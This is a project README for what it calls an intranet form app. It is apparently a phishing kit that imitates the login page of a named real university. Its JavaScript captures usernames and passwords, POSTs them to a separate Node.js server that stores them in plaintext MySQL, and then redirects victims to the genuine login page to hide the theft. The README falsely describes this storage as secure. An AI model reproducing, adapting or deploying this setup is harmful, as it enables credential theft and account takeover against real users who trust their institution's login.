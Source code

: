 
# **Intranet Form Submission App**

This project provides a setup for a form hosted on an IIS server that interacts with a Dockerized Node.js backend and a MySQL database. It saves user credentials securely in the database when the form is submitted.

## **Features**
- **Form Submission**: Collects user credentials (username and password) from a form.
- **Backend API**: Node.js app handles form submissions and stores data in a MySQL database.
- **Dockerized Setup**: Backend and database are containerized for easy deployment.

---

## **Project Structure**
```
.
├── server.js               # Node.js application backend
├── Dockerfile              # Dockerfile for Node.js app
├── docker-compose.yml      # Docker Compose configuration for app and database
├── public/                 # Static assets, including the HTML form
├── init.sql                # SQL script to initialize the database
└── README.md               # Project documentation
```

---

## **Requirements**
- **Docker** and **Docker Compose** installed on your system.
- IIS server to host the HTML form.
- MySQL client (optional, for database inspection).

---

## **Setup Instructions**

### **Step 1: Clone the Repository**
```bash
git clone <REPOSITORY_URL>
cd <PROJECT_DIRECTORY>
```

### **Step 2: Build and Start Docker Containers**
Ensure Docker is running, then execute:
```bash
docker-compose up --build
```

This will:
- Build and start the Node.js app on `http://localhost:4000`.
- Set up a MySQL database with the required schema.

### **Step 3: Host the Form on IIS**
1. Copy the HTML form to your IIS server’s hosting directory.
2. Ensure the form’s `<form>` tag or JavaScript code points to the Node.js backend. **Update the IP address in the JavaScript `submitForm` function to match the IIS server's IP.** For example:
   ```javascript
   async function submitForm(event) {
    event.preventDefault();

    // Get the username and password values from the form
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    if (!username || !password) {
        alert("Please enter both username and password.");
        return;
    }

    try {
        // Send data to the Node.js server
        const response = await fetch('http://192.168.124.1:4000/save-credentials', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({ username, password }),
        });

        // Handle server response
        if (response.ok) {
            const result = await response.json();
            alert(result.message || 'Credentials saved successfully.');

            // Redirect to the specified URL on success
            window.location.href = 'https://acceso.javeriana.edu.co/menu/login3_v2.html?bmctx=A04E6915505F18E099136E72C9264584664C73087CD21469F3540EEF40735E67&password=secure_string&contextType=external&username=string&challenge_url=https%3A%2F%2Facceso.javeriana.edu.co%2Fmenu%2Flogin3_v2.html&request_id=-1917398409814472959&authn_try_count=0&locale=es_419&resource_url=http%253A%252F%252Fintranet.javeriana.edu.co%252Finicio';
        } else {
            const error = await response.json();
            alert(error.message || 'An error occurred.');
        }
    } catch (err) {
        console.error('Error connecting to the server:', err);
        alert('Failed to connect to the server.');
    }
}

   ```
   Replace `<IIS_SERVER_IP>` with the actual IP address of the IIS server (e.g., `192.168.124.1`).

3. Open the form in your browser via the IIS server’s URL.

### **Step 4: Test the Setup**
1. Access the form through IIS, e.g., `http://192.168.124.1:443/menu/login3_v2bc9b.html`.
2. Submit the form with a username and password.
3. Verify the data is saved in the database.

---

## **Usage**

### **Access the Node.js App**
- Base URL: `http://localhost:4000`
- API Endpoint: `POST /save-credentials`

### **Database Information**
- MySQL credentials are configured in the `docker-compose.yml` file:
  ```yaml
  MYSQL_ROOT_PASSWORD: 123
  MYSQL_DATABASE: credentials
  ```
- Default table structure:
  ```sql
  CREATE TABLE users (
      id INT AUTO_INCREMENT PRIMARY KEY,
      username VARCHAR(255) NOT NULL,
      password VARCHAR(255) NOT NULL
  );
  ```

---

## **Troubleshooting**

### Common Issues:
- **CORS Errors**: Ensure the Node.js backend allows requests from the IIS server origin.
- **Port Conflicts**: Check if ports (4000 for Node.js, 3306 for MySQL) are in use.
- **Form Not Submitting**: Ensure the `action` URL or fetch URL in the HTML form points to the correct Node.js server address.

### Logs:
- View Node.js app logs:
  ```bash
  docker logs <NODE_CONTAINER_NAME>
  ```
- Access MySQL container:
  ```bash
  docker exec -it <MYSQL_CONTAINER_NAME> mysql -uroot -p
  ```

---

## **Contributing**
Feel free to submit issues or contribute by creating a pull request.

---

## **License**
This project is licensed under the MIT License.
